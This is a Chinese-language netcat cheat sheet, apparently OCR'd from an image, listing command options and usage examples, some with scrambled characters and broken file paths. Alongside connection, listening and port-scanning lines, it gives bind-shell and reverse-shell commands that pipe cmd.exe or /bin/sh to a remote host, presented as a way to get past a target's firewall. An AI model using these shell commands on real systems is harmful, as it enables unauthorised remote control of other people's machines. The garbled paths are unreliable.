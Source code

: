 　　-e prog程序重定向，一但连接就执行[危险]

　　-i secs延时的间隔

　　-l 监听模式，用于入站连接

　　-L 监听模式，连接天闭后仍然继续监听，直到CTR+C

　　-n IP地址，不能用域名

　　-o film记录16进制的传输

　　-p[空格]端口 本地端口号

　　-r 随机本地及远程端口

　　-t 使用Telnet交互方式

　　-u UDP模式

　　-v 详细输出，用-vv将更详细

　　-w数字 timeout延时间隔

　　-z 将输入，输出关掉（用于扫锚时）

　　**基本用法：**

　　nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口

　　nc -l -p 80 开启本机的TCP 80端口并监听

　　nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口

　　nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口

　　nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口

　　**高级用法：**

　　nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止

　　nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt

　　nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用

　　type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用

　　本机上用：nc -l -p 本机端口

　　在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K

　　nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙

　　本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称

　　在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机

　　备 注：

　　| 管道命令

　　< 或 > 重定向命令。“<”，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令
